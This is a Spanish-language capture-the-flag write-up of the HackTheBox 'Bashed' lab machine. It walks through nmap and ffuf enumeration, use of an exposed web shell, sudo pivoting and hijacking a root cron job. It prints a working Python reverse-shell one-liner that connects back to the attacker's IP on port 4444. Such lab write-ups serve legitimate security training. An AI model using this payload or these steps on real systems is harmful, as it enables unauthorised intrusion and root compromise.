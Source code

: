 ```yaml
---
layout: default
title: Bashed
---
```

#Bashed HTB
## ENUMERACIÓN

Confirmamos con el comando ping si tenemos conexión con la máquina, mandando a esta peticiones ICMP echo.

```bash
$ ping -c 1 10.129.58.114
PING 10.129.58.114 (10.129.58.114) 56(84) bytes of data.
64 bytes from 10.129.58.114: icmp_seq=1 ttl=63 time=7.72 ms

--- 10.129.58.114 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 7.716/7.716/7.716/0.000 ms
```

Vemos que recibimos un paquete, lo que significa que sí tenemos conexión con la máquina, procedemos a buscar puertos que tiene abiertos:

```bash
$ nmap 10.129.58.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:29 CDT
Nmap scan report for 10.129.58.114
Host is up (0.011s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```

Vemos que tiene el puerto 80 (http) abierto, vamos a tratar de sacar la versión con un segundo escaneo exclusivamente a ese puerto:

```bash
$ nmap -sCV -p80 10.129.58.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:30 CDT
Nmap scan report for 10.129.58.114
Host is up (0.0084s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

Vemos gracias al título de la web que parece ser un sitio en desarrollo por el usuario **Arrexel**, vamos a echar un vistazo a la web:

![bashed]({{ "/assets/images/bashed1.png"}})

Si pulsamos en la flecha nos redirige a una página con capturas de pantalla y demuestra y avisa que ha probado su herramienta en la web, la cual es una web shell semi-interactiva:

![bashed]({{ "/assets/images/bashed2.png"}})

Según las capturas lo encontraríamos en el directorio **uploads**, no obstante, ahí no encontramos el web shell, entonces, vamos a hacer fuzzing de directorios con herramientas como **fuff**:

```bash
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.58.114/FUZZ

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 7ms]
php                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 8ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 804ms]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 7ms]
```
Vemos que encontramos el directorio dev, entre otros, al cual si navegamos encontramos lo siguiente:

![bashed]({{ "/assets/images/bashed3.png"}})

Si nos metemos a alguno de ambos, vemos que tenemos la shell semi interactiva que śe testeó en el servidor:

![bashed]({{ "/assets/images/bashed4.png"}})

Vamos a mandarnos una reverse shell con Python, el cual está instalado en el servidor, así podemos conseguir una shell más interactiva
, tenemos antes que iniciar un oyente en nuestra máquina atacante:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```

Tras eso ejecutamos la reverse shell en la web shell semi-interactiva que encontramos en el servidor:

![bashed]({{ "/assets/images/bashed5.png"}})

Y una vez ejecutado deberíamos tener la shell en nuestra máquina:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.210] from (UNKNOWN) [10.129.58.114] 50652
$ whoami
whoami
www-data
```

Efectivamente, tenemos la reverse shell, aunque la haremos más interactiva con los siguientes comandos:

```bash
$ stty raw -echo;fg
```

Esto lo ejecutamos en nuestra máquina atacante, tras eso, en el servidor ejecutamos los siguientes:

```bash
$ export TERM=xterm
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Ya deberíamos tener una shell interactiva.

Si listamos los directorios que existen en **/home** encontramos el de Arrexel y el de scriptmanager:

```bash
www-data@bashed:/var/www/html/dev$ ls /home
arrexel  scriptmanager
```

Si listamos el contenido de **/home/arrexel** encontramos la user flag, la cual podemos leer con los permisos que tenemos:

```bash
www-data@bashed:/var/www/html/dev$ cd /home/arrexel/
www-data@bashed:/home/arrexel$ ls
user.txt
www-data@bashed:/home/arrexel$ cat user.txt
```
## Escalada de privilegios

Ahora, buscaremos la forma de escalar privilegios, primero viendo nuestros permisos como sudo con **sudo -l**:

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Como podemos ver podemos ejecutar sin necesidad de contraseña cualquier cosa como el usuario **scriptmanager** o su grupo, por lo tanto vamos a suplantarle:

```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
```

Como podemos ver somos el usuario **scriptmanager**, ahora debemos intentar escalar a root.

En **/scripts**, que es un directorio creado por alguien, no es predeterminado del sistema, encontramos 2 ficheros:

```bash
scriptmanager@bashed:~$ ls -l /scripts/ 
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 244 Jun  4 09:23 test.py
-rw-r--r-- 1 root          root           21 Jun  4 09:16 test.txt
```

El de python tenemos capacidad de escritura, ya que somos el propietario, en el txt, solo de lectura, pero es del usuario root.

```bash
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$
```

Como podemos ver, el script que tenemos permiso de escritura parece abrir y escribir en el archivo de texto, en el cual solo tiene permisos de escritura por el usuario root, y si modificamos el texto que queremos que se escriba en el script, se cambia en el fichero test.txt como al minuto mas o menos, podríamos ver cada cuanto se ejecuta con herramientas como **pspy**, no obstante, ya sabemos que es una cron que se ejecuta como root, así que modificamos el script para que nos envíe una reverse shell a un puerto que pondremos a escucha en nuestra máquina atacante.

El script modificado luce así:

```bash
scriptmanager@bashed:/scripts$ cat test.py
import os
os.system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.210",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'')
```

Nos envía una reverse shell al puerto 4444 que tendremos a escucha, si se ejecuta eventualmente como root como tenemos pensado, deberíamos de obtener la reverse shell como usuario root:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.210] from (UNKNOWN) [10.129.189.48] 37778
# whoami
whoami
root
# ls /root	
ls /root
root.txt
```

Efectivamente, recibimos la reverse shell como root y podemos ver la root flag en **/root**!

